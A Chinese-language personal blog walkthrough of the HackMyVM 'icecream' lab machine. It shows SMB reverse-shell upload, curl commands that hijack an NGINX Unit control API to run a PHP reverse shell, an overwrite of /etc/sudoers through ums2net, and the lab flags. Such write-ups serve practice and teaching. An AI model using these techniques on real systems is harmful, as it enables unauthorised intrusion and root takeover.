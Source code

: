 ```yaml
---
{"dg-publish":true,"title":"hackmyvm_icecream","tags":["blog"],"dg-path":"安全/靶机/hackmyvm_icecream.md","permalink":"/安全/靶机/hackmyvm_icecream/","dgPassFrontmatter":true}
---
```


# 主机发现

![Pasted image 20250201223547.png](/img/user/picture/Pasted%20image%2020250201223547.png)

主机IP
```txt
192.168.124.21
```

![Pasted image 20250201224124.png](/img/user/picture/Pasted%20image%2020250201224124.png)
开放了5个端口，后面三个不清楚是什么


![Pasted image 20250201224618.png](/img/user/picture/Pasted%20image%2020250201224618.png)


# SMB渗透

![Pasted image 20250202101753.png](/img/user/picture/Pasted%20image%2020250202101753.png)


![Pasted image 20250202102444.png](/img/user/picture/Pasted%20image%2020250202102444.png)
这个目录像是`/tmp`目录

上传反弹shell
![Pasted image 20250202102820.png](/img/user/picture/Pasted%20image%2020250202102820.png)

![Pasted image 20250202102836.png](/img/user/picture/Pasted%20image%2020250202102836.png)

```shell
$ cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
_apt:x:42:65534::/nonexistent:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:998:998:systemd Network Management:/:/usr/sbin/nologin
systemd-timesync:x:997:997:systemd Time Synchronization:/:/usr/sbin/nologin
messagebus:x:100:107::/nonexistent:/usr/sbin/nologin
avahi-autoipd:x:101:109:Avahi autoip daemon,,,:/var/lib/avahi-autoipd:/usr/sbin/nologin
sshd:x:102:65534::/run/sshd:/usr/sbin/nologin
ice:x:1000:1000:ice,,,:/home/ice:/bin/bash
unit:x:999:995:unit user:/nonexistent:/bin/false

```
# 提权-1


//后面的差不多是几乎没看懂，只能先看大佬WP复刻一下


```shell
curl -X PUT -d '{"app":{"type":"php","root":"/tmp","script":"rev.php"}}' http://192.168.124.21:9000/config/applications

curl -X PUT -d '[{"action":{"share":"/tmp/rev.php$uri","fallback":{"pass":"applications/app"}}}]' http://192.168.124.21:9000/config/routes

curl -X PUT -d '{"*:8888":{"pass":"routes"}}' http://192.168.124.21:9000/config/listeners
```

![Pasted image 20250202104533.png](/img/user/picture/Pasted%20image%2020250202104533.png)

之后再去访问
```
http://192.168.124.21:8888/rev.php
```

![Pasted image 20250202104642.png](/img/user/picture/Pasted%20image%2020250202104642.png)

```txt
HMVaneraseroflove
```


# 提权-2


![Pasted image 20250202104843.png](/img/user/picture/Pasted%20image%2020250202104843.png)

看了一下思路大概就是利用`ums2net`写入文件`/etc/sudoers`
```txt
ice ALL=(ALL) NOPASSWD: ALL
```
![Pasted image 20250202110137.png](/img/user/picture/Pasted%20image%2020250202110137.png)



```shell
echo "8080 of=/etc/sudoers" > /tmp/config
```

```shell
sudo /usr/sbin/ums2net -c /tmp/config -d
```

![Pasted image 20250202110245.png](/img/user/picture/Pasted%20image%2020250202110245.png)

![Pasted image 20250202110253.png](/img/user/picture/Pasted%20image%2020250202110253.png)


现在ice用户权限就增加了
![Pasted image 20250202110344.png](/img/user/picture/Pasted%20image%2020250202110344.png)

```shell
sudo bash
```
就有root权限了
![Pasted image 20250202111017.png](/img/user/picture/Pasted%20image%2020250202111017.png)
```txt
HMViminvisible
```






#  小结

这个靶场对我来说还是太难了，全程就是看着大佬的WP做下来的
在两次提权阶段所应用的技术都是我第一次接触
对于SMB服务我也是非常不熟悉
总之，还得练






